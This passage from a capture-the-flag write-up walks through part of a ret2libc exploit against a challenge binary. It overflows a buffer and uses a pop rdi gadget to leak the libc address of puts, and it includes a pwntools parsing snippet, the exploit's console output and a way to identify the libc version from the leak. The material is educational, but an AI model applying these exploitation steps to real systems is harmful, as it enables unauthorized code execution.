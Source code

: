 ```python
b'\xc0I\xe7X\xac\x7f'
[*] Got EOF while reading in interactive
```
From the output of `part1 exploit` some `leak` was seen which was random everytime I ran the exploit. So that may be the address leaked. In order to check I tried to `strip` it and then unpacked as 8 bytes data.

### Leaking the address of Puts
```bash
#Parse leaked address
recieved = p.recvline().strip()
#print(recieved)
leak =  u64(recieved.ljust(8,b"\x00"))
#print(leak)
log.info("Leaked libc address, Puts: %s" % hex(leak))
```
Then combining this to my `part1` exploit I got the address leak of `puts`.

**Output:-**

```python
❯ python3 part1_exploit.py
[+] Opening connection to cha.hackpack.club on port 41702: Done
[*] '/home/gr4n173/climb'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded 16 cached gadgets for './climb'
[*] puts@plt: 0x40050c
[*] __libc_start_main: 0x601018
[*] pop rdi gadget: 0x400743
[*] Switching to interactive mode
[*] Leaked libc address, Puts: 0x7f6662f2b9c0
[*] Switching to interactive mode
[*] Got EOF while reading in interactive
```

Hm... Cool,right? By overflowing the buffer, poping the argument, pointing to got and plt of `puts` address I finally leaked address of `puts` from libc.

### Finding version of libc
And another thing was, every time when exploit was run,I got the different address except the last `3 bytes` of the `puts` leaked address remains same. So that helped me to find a version of libc. In order to find the libc verion you can use this website [Find libc version here](https://libc.blukat.me/). By using this, libc verison was shown and file was downloaded.
